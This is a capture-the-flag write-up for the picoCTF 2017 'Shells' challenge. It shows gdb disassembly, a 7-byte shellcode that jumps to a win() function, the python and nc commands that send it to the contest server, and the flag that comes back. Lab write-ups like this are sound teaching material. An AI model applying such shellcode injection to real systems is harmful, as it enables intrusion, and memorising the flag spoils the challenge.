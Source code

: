 **Challenge name:** Shells  
**Description:** How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:58279.  
**Hint:** Read about basic shellcode  
You don't need a full shell (yet...), just enough to get the flag  
**File(s) provided:**  
- shells (ELF 32-bit binary)
- shells.c (source code)

---
# Step 0: Recon
Similar to shellz. In this case, we only get to execute 10 bytes worth of shellcode. Luckily, there is now a function (```void win()```) that does what we need. All we need to do is feed it some shellcode that jumps to that function.

# Step 1: Create shellcode
First, let's figure out the address of where we need to jump to. It's likely that ASLR is disabled anyway.
```bash
# gdb shells -q
Reading symbols from shells...(no debugging symbols found)...done.
(gdb) disas win
Dump of assembler code for function win:
   0x08048540 <+0>:	push   %ebp
...
```
Our shellcode should look like this:
``` asm
mov eax, 0x08048540
call eax
```
Note: my first try was to run ``` call 0x08048540```, but the nasm_shell output (see next step) didn't work in gdb.

# Step 2: Assemble the shellcode
To get the instruction bytes for shellcode, we are going to use metasploit's nasm_shell:
``` bash
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > mov eax, 0x08048540
00000000  B840850408        mov eax,0x8048540
nasm > call eax
00000000  FFD0              call eax
```
To pass this shellcode to the binary, we can use python:
``` bash
# python -c 'print "\xB8\x40\x85\x04\x08\xFF\xD0"'
```
# Step 3: Test locally
First, we create a test flag file.
Next, we set a breakpoint at the right point (```call *%eax```):
``` bash
# gdb shells -q
Reading symbols from shells...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08048560 <+0>:	push   %ebp
   0x08048561 <+1>:	mov    %esp,%ebp
   0x08048563 <+3>:	sub    $0x18,%esp
   0x08048566 <+6>:	sub    $0x8,%esp
   0x08048569 <+9>:	push   $0x0
   0x0804856b <+11>:	push   $0x0
   0x0804856d <+13>:	push   $0x22
   0x0804856f <+15>:	push   $0x7
   0x08048571 <+17>:	push   $0xa
   0x08048573 <+19>:	push   $0x0
   0x08048575 <+21>:	call   0x8048420 <mmap@plt>
   0x0804857a <+26>:	add    $0x20,%esp
   0x0804857d <+29>:	mov    %eax,-0xc(%ebp)
   0x08048580 <+32>:	cmpl   $0xffffffff,-0xc(%ebp)
   0x08048584 <+36>:	jne    0x80485a0 <vuln+64>
   0x08048586 <+38>:	sub    $0xc,%esp
   0x08048589 <+41>:	push   $0x8048714
   0x0804858e <+46>:	call   0x80483e0 <puts@plt>
   0x08048593 <+51>:	add    $0x10,%esp
   0x08048596 <+54>:	sub    $0xc,%esp
   0x08048599 <+57>:	push   $0x0
   0x0804859b <+59>:	call   0x8048410 <exit@plt>
   0x080485a0 <+64>:	sub    $0x8,%esp
   0x080485a3 <+67>:	push   $0xa
   0x080485a5 <+69>:	push   $0x804873e
   0x080485aa <+74>:	call   0x80483c0 <printf@plt>
   0x080485af <+79>:	add    $0x10,%esp
   0x080485b2 <+82>:	mov    0x8049a60,%eax
   0x080485b7 <+87>:	sub    $0xc,%esp
   0x080485ba <+90>:	push   %eax
   0x080485bb <+91>:	call   0x80483d0 <fflush@plt>
   0x080485c0 <+96>:	add    $0x10,%esp
   0x080485c3 <+99>:	sub    $0x4,%esp
   0x080485c6 <+102>:	push   $0xa
   0x080485c8 <+104>:	pushl  -0xc(%ebp)
   0x080485cb <+107>:	push   $0x0
   0x080485cd <+109>:	call   0x80483b0 <read@plt>
   0x080485d2 <+114>:	add    $0x10,%esp
   0x080485d5 <+117>:	mov    %eax,-0x10(%ebp)
   0x080485d8 <+120>:	cmpl   $0x0,-0x10(%ebp)
   0x080485dc <+124>:	jne    0x80485f8 <vuln+152>
   0x080485de <+126>:	sub    $0xc,%esp
---Type <return> to continue, or q <return> to quit---
   0x080485e1 <+129>:	push   $0x8048754
   0x080485e6 <+134>:	call   0x80483c0 <printf@plt>
   0x080485eb <+139>:	add    $0x10,%esp
   0x080485ee <+142>:	sub    $0xc,%esp
   0x080485f1 <+145>:	push   $0x0
   0x080485f3 <+147>:	call   0x8048410 <exit@plt>
   0x080485f8 <+152>:	mov    -0xc(%ebp),%eax
   0x080485fb <+155>:	mov    %eax,-0x14(%ebp)
   0x080485fe <+158>:	mov    -0x14(%ebp),%eax
   0x08048601 <+161>:	call   *%eax
   0x08048603 <+163>:	leave  
   0x08048604 <+164>:	ret    
End of assembler dump.
(gdb) break *0x08048601
Breakpoint 1 at 0x8048601
```
Let's run the binary in gdb with the right input. Note how you can still call python from within gdb.
``` bash
(gdb) run < <(python -c 'print "\xB8\x40\x85\x04\x08\xFF\xD0"')
Starting program: /mnt/hgfs/Shared/ctf/pico2017/shells/shells < <(python -c 'print "\xB8\x40\x85\x04\x08\xFF\xD0"')
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:

Breakpoint 1, 0x08048601 in vuln ()
```
We are at the point just before the shellode is executed. Let's inspect memory and the instructions to be executed.
``` bash
(gdb) si
0xf7ffb000 in ?? ()
(gdb) x/2x $eip
0xf7ffb000:	0x048540b8	0x0ad0ff08
(gdb) x/2i $eip
=> 0xf7ffb000:	mov    $0x8048540,%eax
   0xf7ffb005:	call   *%eax
```
Looks good. Continuing shows that the test flag file is indeed read.
``` bash
(gdb) c
Continuing.
test

Program received signal SIGSEGV, Segmentation fault.
0xf7ffb007 in ?? ()
```
# Step 5: Get flag
``` bash
# python -c 'print "\xB8\x40\x85\x04\x08\xFF\xD0"' | nc shell2017.picoctf.com 58279
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
84f1e856de605076057b0687dfd0865f
```
